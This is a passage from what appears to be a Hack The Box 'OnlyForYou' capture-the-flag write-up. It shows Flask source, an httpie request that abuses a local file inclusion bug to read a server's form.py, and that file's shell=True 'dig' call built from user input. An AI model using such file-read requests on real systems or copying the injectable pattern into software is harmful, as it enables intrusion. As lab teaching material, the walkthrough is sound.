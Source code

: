         status = sendmessage(email, subject, message, ip)
        if status == 0:
            flash('Something went wrong!', 'danger')
        elif status == 1:
            flash('You are not authorized!', 'danger')
        else:
            flash('Your message was successfuly sent! We will reply as soon as possible.', 'success')
        return redirect('/#contact')
    else:
        return render_template('index.html')

@app.errorhandler(404)
def page_not_found(error):
    return render_template('404.html'), 404

@app.errorhandler(500)
def server_errorerror(error):
    return render_template('500.html'), 500

@app.errorhandler(400)
def bad_request(error):
    return render_template('400.html'), 400

@app.errorhandler(405)
def method_not_allowed(error):
    return render_template('405.html'), 405

if __name__ == '__main__':
    app.run(host='127.0.0.1', port=80, debug=False)

{{< /highlight >}}

The module imports the `sendmessage()` function from then form module. So retrieved the `form.py` file using LFI vulnerability.

{{< highlight python "linenos=table,hl_lines=8 11-12 16-17" >}}

> http --form -pb POST beta.only4you.htb/download image='/var/www/only4you.htb/form.py'
import smtplib, re
from email.message import EmailMessage
from subprocess import PIPE, run
import ipaddress

def issecure(email, ip):
    if not re.match("([A-Za-z0-9]+[.-_])*[A-Za-z0-9]+@[A-Za-z0-9-]+(\.[A-Z|a-z]{2,})", email):
        return 0
    else:
        domain = email.split("@", 1)[1]
        result = run([f"dig txt {domain}"], shell=True, stdout=PIPE)
        output = result.stdout.decode('utf-8')
...snip...
...snip...
def sendmessage(email, subject, message, ip):
    status = issecure(email, ip)
    if status == 2:
        msg = EmailMessage()
        msg['From'] = f'{email}'
        msg['To'] = 'info@only4you.htb'
        msg['Subject'] = f'{subject}'
        msg['Message'] = f'{message}'
...snip...
...snip...
